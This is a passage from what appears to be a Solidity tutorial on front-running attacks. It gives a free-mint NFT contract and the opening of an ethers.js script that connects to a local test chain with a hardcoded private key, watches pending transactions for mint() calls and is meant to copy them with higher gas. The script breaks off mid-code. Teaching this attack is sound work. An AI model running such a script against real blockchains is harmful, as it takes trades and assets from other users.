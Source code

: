 **3. Deploy the NFT Contract:** Deploy a simple freemint NFT contract on Remix. It has a `mint()` function for free NFT minting.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
// english translation by 22X
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// We attempt to frontrun a Free mint transaction
contract FreeMint is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Mint function
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. Deploy the ethers.js front-running script:** In simple terms, the `frontrun.js` script listens to pending transactions in the test chain's mempool, filters out transactions that call `mint()`, and then duplicates and increases the gas to front-run them. If you are not familiar with `ether.js`, you can read the [WTF Ethers](https://github.com/WTFAcademy/WTF-Ethers) tutorial.

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Create provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork();
network.then(res =>
  console.log(
    `[${new Date().toLocaleTimeString()}] Connected to chain ID ${res.chainId}`,
  ),
);

// 2. Create interface object for decoding transaction details.
const iface = new utils.Interface(["function mint() external"]);

// 3. Create wallet for sending frontrun transactions.
const privateKey =
  "0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a";
const wallet = new ethers.Wallet(privateKey, provider);

const main = async () => {
  // 4. Listen for pending mint transactions, get transaction details, and decode them.
  console.log("\n4. Listen for pending transactions, get txHash, and output transaction details.");
  provider.on("pending", async txHash => {
    if (txHash) {
      // Get transaction details
      let tx = await provider.getTransaction(txHash);
      if (tx) {
        // Filter pendingTx.data
        if (
          tx.data.indexOf(iface.getSighash("mint")) !== -1 &&
          tx.from != wallet.address
        ) {
```